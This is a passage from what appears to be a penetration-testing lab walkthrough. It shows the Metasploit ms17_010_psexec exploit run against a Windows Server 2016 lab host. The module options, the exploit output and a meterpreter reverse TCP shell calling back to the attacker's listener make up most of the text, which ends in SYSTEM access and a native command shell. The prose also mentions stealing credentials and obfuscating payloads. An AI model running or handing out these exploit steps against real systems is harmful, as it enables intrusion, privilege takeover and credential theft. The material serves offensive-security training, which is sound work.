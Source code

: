 ```shell
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```

This time, we kept it simple and just used a `windows/meterpreter/reverse_tcp` payload. You can change this as you wish for a different shell type or obfuscate your attack more, as shown in the previous payloads sections. With our options set, let's give this a try and see if we land a shell.

1. Execute Attack, and Receive A Callback.

#### Execute Our Attack

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter >

```

Success! We have landed our exploit and gained a shell session. A `SYSTEM` level shell at that. As seen in the earlier MSF modules, now that we have an open session through Meterpreter, we are presented with the `meterpreter > ` prompt. From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host. If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

1. Identify the Native Shell.

#### Identify Our Shell

```shell
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```
